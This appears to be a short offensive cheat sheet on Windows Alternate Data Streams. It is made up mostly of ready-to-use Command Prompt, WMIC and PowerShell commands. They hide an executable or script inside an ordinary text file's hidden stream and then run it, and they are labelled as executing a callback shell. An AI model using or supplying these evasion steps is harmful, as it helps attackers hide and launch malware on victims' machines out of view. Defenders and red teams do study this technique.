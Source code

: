 # Alternate Data Streams

## 01 - Command Prompt

### 1.1 - Basics

- **Hide the file**

`C:\> type shell.exe > file.txt:shell.exe`

- **Execute it**

`C:\> start file.txt:shell.exe`

### 1.2 - WMIC

- **Execute Callback Shell via ADS**

`C:\> wmic process create "c:\path\to\file.txt:shell.exe"`

## 02 - Powershell

### 2.1 - Basics

- **Hide the file**

`PS C:\> Set-Content file.txt -Stream script.ps1 -Value shell.ps1`

- **Execute Callback Shell via ADS**

`PS C:\> Get-Content file.txt -Stream script.ps1 | iex`